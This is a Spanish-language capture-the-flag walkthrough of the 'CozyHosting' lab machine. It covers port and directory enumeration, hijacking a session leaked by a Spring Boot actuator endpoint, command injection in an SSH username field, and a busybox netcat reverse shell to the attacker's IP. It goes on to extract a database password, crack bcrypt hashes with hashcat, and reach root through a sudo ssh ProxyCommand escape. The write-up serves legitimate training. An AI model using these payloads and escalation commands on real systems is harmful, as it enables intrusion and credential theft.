

# Resolución maquina cozyhisting

**Autor:** PepeMaquina  
**Fecha:** 19 de octubre de 2025  
**Dificultad:** Easy  
**Sistema Operativo:** Linux  
**Tags:** Cookie, Command injection, SSH.

---
## Imagen de la Máquina

*Imagen: cozy.JPG*
## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.10.11.230 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,80 10.10.11.230 -oN targeted
~~~
### Enumeración de Servicios
~~~ 
PORT   STATE    SERVICE VERSION
22/tcp filtered ssh
80/tcp open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~
Algo raro, es que el puerto 22 aparece como filtrado en lugar de abierto como la el primer escaneo, entiendo que puede que la maquina haya fallado, pero por el momento no la volvere a escanear.
### Enumeración de la página web
Al inspeccionar el resultado del escaneo se ve que redirige a un dominio especifico "cozyhosting.htb" que agregamos al etc/hosts
~~~bash
cat /etc/hosts
127.0.0.1 localhost
<SNIP>
10.10.11.230 cozyhosting.htb
~~~
Al momento de inspeccionar la pagina web, no se encontro nada importante mas que un lugar para loguearse, se probaron las credenciales basicas pero no se pudo encontrar la correcta, una opcion seria realizar un ataque de fuerza bruta pero esa siempre queda como mi ultima opción.
Tambien se realizo la enumeración de directorios.
~~~
feroxbuster -u http://cozyhosting.htb  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -d 0 -t 5 -o fuzz -k -x php
                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://cozyhosting.htb
 🚀  Threads               │ 5
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💾  Output File           │ fuzz
 💲  Extensions            │ [php]
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ INFINITE
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        1l        2w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET      285l      745w    12706c http://cozyhosting.htb/index
200      GET       38l      135w     8621c http://cozyhosting.htb/assets/img/logo.png
200      GET       34l      172w    14934c http://cozyhosting.htb/assets/img/pricing-starter.png
200      GET       29l      131w    11970c http://cozyhosting.htb/assets/img/pricing-free.png
200      GET        1l      218w    26053c http://cozyhosting.htb/assets/vendor/aos/aos.css
200      GET       97l      196w     4431c http://cozyhosting.htb/login
200      GET       29l      174w    14774c http://cozyhosting.htb/assets/img/pricing-ultimate.png
200      GET      295l      641w     6890c http://cozyhosting.htb/assets/js/main.js
200      GET       43l      241w    19406c http://cozyhosting.htb/assets/img/pricing-business.png
200      GET        1l      625w    55880c http://cozyhosting.htb/assets/vendor/glightbox/js/glightbox.min.js
200      GET     2397l     4846w    42231c http://cozyhosting.htb/assets/css/style.css
200      GET       73l      470w    37464c http://cozyhosting.htb/assets/img/values-1.png
200      GET       14l     1684w   143706c http://cozyhosting.htb/assets/vendor/swiper/swiper-bundle.min.js
200      GET       38l      135w     8621c http://cozyhosting.htb/assets/img/favicon.png
200      GET       83l      453w    36234c http://cozyhosting.htb/assets/img/values-3.png
200      GET       79l      519w    40905c http://cozyhosting.htb/assets/img/values-2.png
200      GET     2018l    10020w    95609c http://cozyhosting.htb/assets/vendor/bootstrap-icons/bootstrap-icons.css
200      GET        1l      313w    14690c http://cozyhosting.htb/assets/vendor/aos/aos.js
200      GET       81l      517w    40968c http://cozyhosting.htb/assets/img/hero-img.png
200      GET        7l     2189w   194901c http://cozyhosting.htb/assets/vendor/bootstrap/css/bootstrap.min.css
200      GET        7l     1222w    80420c http://cozyhosting.htb/assets/vendor/bootstrap/js/bootstrap.bundle.min.js
200      GET      285l      745w    12706c http://cozyhosting.htb/
401      GET        1l        1w       97c http://cozyhosting.htb/admin
204      GET        0l        0w        0c http://cozyhosting.htb/logout
500      GET        1l        1w       73c http://cozyhosting.htb/error
~~~
Revisando los directorios que mas llaman la atención, llegue al punto de revisar el que tiene el nombre de "/error", pudiendo observar un mensaje que posiblemente sea el predeterminado de algun framework.

### Robo de cookie
Al no saber que mas hacer y colocando directorios al azar por si sale algo interesante, siempre entrega el mismo mensaje de error, buscando estos mensajes en internet se ve que por detras corre un framework "spring-boot", asi que al buscar mas sobre este framework, al parecer tiene una wordlist de directorios especiales asi que se prueba eso.
~~~bash
feroxbuster -u http://cozyhosting.htb -w /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt -d 0 -t 5 -o fuzz -k
                                                                                                                                                            
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://cozyhosting.htb
 🚀  Threads               │ 5
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/spring-boot.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💾  Output File           │ fuzz
 🏁  HTTP methods          │ [GET]
 🔓  Insecure              │ true
 🔃  Recursion Depth       │ INFINITE
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        1l        2w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
[##>-----------------] - 2s        13/113     33s     found:0       errors:0      
200      GET       38l      135w     8621c http://cozyhosting.htb/assets/img/favicon.png
200      GET       79l      519w    40905c http://cozyhosting.htb/assets/img/values-2.png
200      GET       73l      470w    37464c http://cozyhosting.htb/assets/img/values-1.png
200      GET     2018l    10020w    95609c http://cozyhosting.htb/assets/vendor/bootstrap-icons/bootstrap-icons.css
200      GET     2397l     4846w    42231c http://cozyhosting.htb/assets/css/style.css
200      GET        1l      218w    26053c http://cozyhosting.htb/assets/vendor/aos/aos.css
200      GET        7l     2189w   194901c http://cozyhosting.htb/assets/vendor/bootstrap/css/bootstrap.min.css
200      GET       43l      241w    19406c http://cozyhosting.htb/assets/img/pricing-business.png
200      GET        1l      625w    55880c http://cozyhosting.htb/assets/vendor/glightbox/js/glightbox.min.js
200      GET       97l      196w     4431c http://cozyhosting.htb/login
200      GET       38l      135w     8621c http://cozyhosting.htb/assets/img/logo.png
200      GET        1l        1w      634c http://cozyhosting.htb/actuator
200      GET       81l      517w    40968c http://cozyhosting.htb/assets/img/hero-img.png
200      GET       83l      453w    36234c http://cozyhosting.htb/assets/img/values-3.png
200      GET      295l      641w     6890c http://cozyhosting.htb/assets/js/main.js
200      GET        7l     1222w    80420c http://cozyhosting.htb/assets/vendor/bootstrap/js/bootstrap.bundle.min.js
200      GET        1l      313w    14690c http://cozyhosting.htb/assets/vendor/aos/aos.js
200      GET       29l      174w    14774c http://cozyhosting.htb/assets/img/pricing-ultimate.png
200      GET        1l      120w     4957c http://cozyhosting.htb/actuator/env
200      GET       29l      131w    11970c http://cozyhosting.htb/assets/img/pricing-free.png
200      GET       34l      172w    14934c http://cozyhosting.htb/assets/img/pricing-starter.png
200      GET        1l       13w      487c http://cozyhosting.htb/actuator/env/home
404      GET        0l        0w        0c http://cozyhosting.htb/actuator/env/pwd
200      GET        1l       13w      487c http://cozyhosting.htb/actuator/env/lang
200      GET        1l      542w   127224c http://cozyhosting.htb/actuator/beans
404      GET        0l        0w        0c http://cozyhosting.htb/actuator/env/language
404      GET        0l        0w        0c http://cozyhosting.htb/actuator/env/tz
200      GET        1l       13w      487c http://cozyhosting.htb/actuator/env/path
404      GET        0l        0w        0c http://cozyhosting.htb/actuator/env/hostname
200      GET        1l        1w       15c http://cozyhosting.htb/actuator/health
200      GET       14l     1684w   143706c http://cozyhosting.htb/assets/vendor/swiper/swiper-bundle.min.js
200      GET      285l      745w    12706c http://cozyhosting.htb/
200      GET        1l        1w       48c http://cozyhosting.htb/actuator/sessions
200      GET        1l      108w     9938c http://cozyhosting.htb/actuator/mappings
404      GET        0l        0w        0c http://cozyhosting.htb/actuator/env/spring.jmx.enabled
~~~
Se pudo encontrar, que presenta algunas paginas a las que tiene acceso, ingresando en todas y cada una de ellas se puede ver una con una sesion activa.

Se ve un usuario y algo que parece una cookie de sesion, asi que cambiando esos datos con los que tengo en mi navegador, se usa cookieditor.

Al momento de refrescar la pagina nos redirige a la interfaz de admin que no se tenia acceso al inicio.

### Command injection
Esto parece ser un buen inicio, viendo lo que se puede hacer con esa página, se pudo observar que hay un apartado para ingresar credenciales por ssh, al momento de colocar datos para probarlo, muestran errores a como si estuvieran saliendo del bash del servidor.

Esto es un posible command injection, por lo que se prueban distintos payloads para ver cual funcionaria.
Al parecer no se permiten espacios al momento de colocar el usuario, de alguna forma puede que el comando por detras sea algo como:
~~~bash
ssh -i key user@host
~~~
Normalmente probaria con burpsuite y pondria todo con url enconding, pero por alguna razon no abre el programa, asi que intentando hacerlo manualmente, se prueba el payload en el "username"
~~~bash
test;id;#
~~~
Como no imprime ningun resultado, se prueba haciendo un ping a mi maquina.
~~~bash
test;ping{$IFS}-c{$IFS}2{$IFS}10.10.14.17;#
~~~
Mientras que en espera de la respuesta desde mi maquina atacante con tcpdump se logra obtener respuesta.
~~~bash
sudo tcpdump -i tun0 icmp                                                                      
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
16:33:26.792999 IP cozyhosting.htb > 10.10.14.17: ICMP echo request, id 2, seq 1, length 64
16:33:26.793137 IP 10.10.14.17 > cozyhosting.htb: ICMP echo reply, id 2, seq 1, length 64
16:33:27.794979 IP cozyhosting.htb > 10.10.14.17: ICMP echo request, id 2, seq 2, length 64
16:33:27.795018 IP 10.10.14.17 > cozyhosting.htb: ICMP echo reply, id 2, seq 2, length 64
~~~
De esta forma comprobamos que la inyeccion de comandos es efectiva, buscando un payload correcto, se establece una reverse shell
~~~bash
test;busybox{$IFS}nc{$IFS}10.10.14.17{$IFS}4433{$IFS}-e{$IFS}/bin/bash;#
~~~
Estableciendo un escucha se logra obtener efectivamente una shell para un usuario llamado "app"
~~~bash
sudo nc -nlvp 4433       
listening on [any] 4433 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.230] 47618
id
uid=1001(app) gid=1001(app) groups=1001(app)
~~~
### Pivoteo al usuario josh
Se ven todos los usuarios con acceso a una shell y se tiene a "josh"
~~~bash
app@cozyhosting:/app$ cat /etc/passwd | grep "/bin/bash"
root:x:0:0:root:/root:/bin/bash
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
~~~
Por lo que se debe hacer es saltar a ese usuario.
En el lugar donde tengo la shell que es "/app" se tiene un archivo .jar que es un backend de java, normalmente dentro de esta suele estar todos los archivos de configuracion y demas por lo que vendria a ser un buen lugar para empezar a enumerar.
Primero se pasa todo a mi maquina y basicamente descomprimirla.
~~~
unzip cloudhosting-0.0.1.jar
Archive:  cloudhosting-0.0.1.jar
   creating: META-INF/
  inflating: META-INF/MANIFEST.MF    
   creating: org/
   creating: org/springframework/
   creating: org/springframework/boot/
<SNIP>
~~~
La forma mas facil seria buscar algo que contenga password, pass, creds, o cosas similares, pero como a mi me gusta complicarme la vida, busco archivo por archivo para ver todo.
Despues de casi una hora de lectura, descubri un archivo llamado "application.properties" que contiene una contraseña.
~~~
cat cozyhosting/content/BOOT-INF/classes/application.properties 
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg<SNIP>xR
~~~
Como siempre digo "contraseña que veo, contraseña que pruebo", primero se me ocurrio ver si las credenciales sirven para autenticarse por ssh, pero lastimosamente no son las credenciales validas, por ende, se prueban las credenciales en el mismo postgres que es para lo que existen.
Dentro de la maquina objetivo se prueban las credenciales.
~~~bash
app@cozyhosting:/app$ psql -U postgres -h localhost
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres-# \list
postgres-# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
cozyhosting-# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

cozyhosting=# select * from users;
Schema | Name  
--------+-------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
 admin | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
~~~
Con ello se podrian ver las credenciales de dos usuarios, de estos el que mas me importa es el de admin asi que lo intentare descifrar con hashcat.
Por suerte se pudo obtener una contraseña.
~~~
hashcat -m 3200 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:ma<SNIP>ed

~~~

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`
### User Flag
Ahora si, intentando probar dicha contraseña con ssh, por fin se tiene acceso y se puede leer la user flag.
~~~bash
ssh josh@10.10.11.230
josh@10.10.11.230's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Oct 19 09:13:36 PM UTC 2025

<SNIP>

josh@cozyhosting:~$ cat user.txt 
<Encuentre su propia usre flag>
~~~

---
## Escalada de Privilegios
La escalada de privilegios es bastante sencilla, solo se enumero los permisos que se tienen con sudo.
~~~bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
~~~
Con esto ya es bastante simple, se busca en GTFOBins y un copy + paste
~~~bash
josh@cozyhosting:~$ sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con acceso a "root", ya se puede leer la root flag y realizar todo lo que se quisiera para lograr persistencia.
~~~bash
# cd /root
# cat root.txt
<Encuentre su propia root flag>
~~~
De esa forma, se logro obtener la root flag.
🎉 Sistema completamente comprometido - Root obtenido
